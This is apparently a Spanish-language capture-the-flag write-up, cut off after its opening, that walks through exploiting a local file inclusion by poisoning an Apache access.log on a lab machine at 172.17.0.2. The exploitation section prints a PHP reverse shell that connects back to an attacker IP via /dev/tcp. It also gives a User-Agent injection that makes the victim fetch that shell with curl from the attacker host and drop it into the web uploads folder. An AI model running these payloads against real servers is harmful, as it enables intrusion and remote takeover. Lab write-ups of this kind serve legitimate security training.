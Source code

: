 ```bash
http://172.17.0.2/problems.php?backdoor=/var/log/apache2/access.log
```

tras investigar log poisoning he comprobado que el archivo access.log se encarga de registrar y tramitar paquetes y archivos que apuntan al servidor 

y en el archivo error.log podemos ver que esos paquetes los recibe y tramita por la misma ip pero un numero menos 172.17.0.2 - 172.17.0.1

![[20250812205212.png]](veneno-images/20250812205212.png)

# Fase de Explotación

lo primero que vamos a hacer es crear una shell en php al archivo le podéis dar el nombre que queráis yo usare fatality.php

```bash
nano fatality.php
```

y pondremos esto en el archivo 

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.182/443 0>&1'");
?>
```

Tenéis que poner en esta parte estos datos `/dev/tcp/<IP ATACANTE>/<PUERTO QUE VAYAIS A USAR>`

Bien una vez tenemos esto haremos lo siguiente.

```bash
curl -i -v 172.17.0.2 -A "<?php system('curl 172.17.0.1:1112/fatality.php -o /var/www/html/uploads/fatality.php') ; ?>"
```

utilizaremos curl para lanzarle a la ip victima el código php indicado donde la propia maquina victima solicitara a nuestro equipo vía curl nuestra shell.php.

como hemos visto que el archivo access.log utilizaba la IP 172.17.0.1 lo mandaremos por ahi y el puerto indicado es el que nosotros queramos pero tendremos que abrir un http por ese mismo puerto desde nuestra maquina atacante para que la victima tenga acceso a la shell.php después con el parámetro -o le decimos que lo guarde en el directorio uploads que vimos antes

Vamos a explicarlo por pasos 

## Primero
